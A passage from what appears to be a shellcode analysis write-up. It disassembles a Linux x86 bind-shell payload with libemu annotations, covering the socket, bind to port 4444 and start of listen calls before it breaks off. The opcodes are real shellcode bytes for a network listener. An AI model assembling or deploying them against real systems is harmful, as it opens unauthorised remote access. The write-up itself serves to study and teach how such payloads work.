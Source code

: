 The benefit of such a flowchart is that modularization of the analysis becomes much simpler, the modularization started in the previous step ,the initial libemu analysis, but is confirmed in more detail within the execution flowchart. From here a more detailed analysis and merge of the libemu and disassembly can begin in earnest.

Modularize initial payload disassembly, using libemu and execution flowchart:
```nasm	
; clear registers
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
 
; socket:
; int socket(int domain, int type, int protocol);
;
; libemu:
;   int domain = 2;
;   int type = 1;
;   int protocol = 0;
00000004  53                push ebx        ; IPPROTO_IP=0
00000005  43                inc ebx         ; socketcall, SYS_SOCKET
00000006  53                push ebx        ; SOCK_STREAM
00000007  6A02              push byte +0x2  ; AF_INET
00000009  89E1              mov ecx,esp     ; ecx, ptr to args
0000000B  B066              mov al,0x66     ; socketcall()
0000000D  CD80              int 0x80        ; make the call
 
; bind:
; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
;
; libemu:
;   int sockfd = 14;
;   struct sockaddr_in * my_addr = 0x00416fc2 =>
;       struct   = {
;           short sin_family = 2;
;               unsigned short sin_port = 23569 (port=4444);
;               struct in_addr sin_addr = {
;                   unsigned long s_addr = 0 (host=0.0.0.0);
;               };
;               char sin_zero = "       ";
;       };
;   int addrlen = 16;
0000000F  5B                pop ebx         ; bind()
00000010  5E                pop esi         ; esi, contains sockfd
00000011  52                push edx        ; sin_addr (INADDR_ANY)
00000012  680200115C        push dword 0x5c110002 ; sin_port/sin_family
00000017  6A10              push byte +0x10 ; addrlen
00000019  51                push ecx        ; my_addr
0000001A  50                push eax        ; sockfd
0000001B  89E1              mov ecx,esp     ; ecx, ptr to args
0000001D  6A66              push byte +0x66 ; socketcall()
0000001F  58                pop eax         ; eax, socketcall()
00000020  CD80              int 0x80        ; make the call
 
; listen:
; int listen(int sockfd, int backlog);
;
; libemu:
;   int listen (
;       int s = 14;
;       int backlog = 0;
;   )
00000022  894104            mov [ecx+0x4],eax ;backlog -ecx,ptr to args
00000025  B304              mov bl,0x4      ; listen()
00000027  B066              mov al,0x66     ; socketcall()
```
